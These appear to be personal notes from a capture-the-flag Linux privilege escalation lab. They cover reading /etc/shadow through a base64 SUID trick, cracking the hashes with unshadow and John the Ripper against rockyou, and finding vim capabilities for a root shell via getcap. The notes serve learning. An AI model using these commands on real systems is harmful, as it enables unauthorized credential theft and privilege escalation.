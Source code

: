 	`unshadow passwd.txt shadow.txt > passwords.txt`  

![](https://i.imgur.com/6cHBAr1.png)

`john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt`

Q) Which user shares the name of a great comic book writer?
	```base64 /etc/passwd | base64 -decode```
	![[Pasted image 20240823223110.png]]

Q) What is the password of user2?
	```base64 /etc/shadow | base64 -decode```
	`unshadow passwd.txt shadow.txt > passwords.txt`
	`john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt`
	![[Pasted image 20240823223330.png]]

Q)What is the content of the flag3.txt file?
	same trick on encoding and decoding to gain read acces: 
		`base64 /home/ubuntu/flag3.txt | base64 -d`

## **Privilege Escalation: Capabilities**
Another method system administrators can use to increase the privilege level of a process or binary is “Capabilities”. Capabilities help manage privileges at a more granular level. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the system administrator does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user. The capabilities man page provides detailed information on its usage and options.

We can use the `getcap` tool to list enabled capabilities.
	![](https://i.imgur.com/Q6XYr0p.png)

  
Please note that neither vim nor its copy has the SUID bit set. This privilege escalation vector is therefore not discoverable when enumerating files looking for SUID.
	![[Pasted image 20240823233354.png]]

GTFObins has a good list of binaries that can be leveraged for privilege escalation if we find any set capabilities. Vim can be used with the following command and payload:
	![[Pasted image 20240823234405.png]]
	
	![[Pasted image 20240823233458.png]]

This will launch a root shell as seen below;
	![[Pasted image 20240823233708.png]]

Q)How many binaries have set capabilities?
	`getcap -r / 2>/dev/null	`
	![[Pasted image 20240823234159.png]]
	
Q)What other binary can be used through its capabilities?
	![[Pasted image 20240823234334.png]]
